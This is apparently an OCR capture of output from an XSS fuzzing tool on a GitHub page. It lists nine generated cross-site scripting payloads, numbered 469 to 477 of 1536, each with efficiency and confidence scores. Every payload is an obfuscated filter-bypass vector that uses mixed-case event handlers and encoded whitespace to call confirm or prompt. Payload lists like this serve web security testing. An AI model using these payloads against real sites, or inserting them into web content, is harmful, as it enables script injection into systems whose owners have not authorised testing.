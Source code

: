 ------------------------------------------------------------
 Payload: <dETAILS%0donPointEReNteR%09=%09a=prompt,a()// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 469/1536
 
------------------------------------------------------------
 Payload: <HtML/+/ONMoUSEovEr%0d=%0d(confirm)()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 470/1536
 
------------------------------------------------------------
 Payload: <a%0doNMouSeovEr+=+[8].find(confirm)//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 471/1536
 
------------------------------------------------------------
 Payload: <hTMl/+/onPoiNterENTEr%0a=%0aconfirm()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 472/1536
 
------------------------------------------------------------
 Payload: <d3v%0doNPOiNtErenTEr+=+confirm()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 473/1536
 
------------------------------------------------------------
 Payload: <dETAILs%0aonpOiNTeRENter%0a=%0a(confirm)()// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 474/1536
 
------------------------------------------------------------
 Payload: <a%0dOnMoUseoVEr%0a=%0aconfirm()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 475/1536
 
------------------------------------------------------------
 Payload: <D3v%09ONpOINteRenTER+=+confirm()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 476/1536
 
------------------------------------------------------------
 Payload: <a%09OnpOinTErENtER%0d=%0dconfirm()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 477/1536
 